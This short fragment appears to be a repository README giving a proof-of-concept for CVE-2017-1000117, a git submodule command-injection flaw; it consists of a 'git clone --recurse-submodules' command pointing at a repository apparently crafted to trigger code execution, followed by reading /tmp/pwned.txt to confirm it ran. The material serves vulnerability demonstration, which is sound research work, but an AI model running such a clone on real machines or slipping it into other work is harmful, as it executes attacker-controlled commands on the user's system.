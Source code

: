 ###CVE-2017-1000117 POC
```
git clone --recurse-submodules "https://github.com/Loneyers/vuldocker/CVE-2017-1000117.git"
cat /tmp/pwned.txt
```
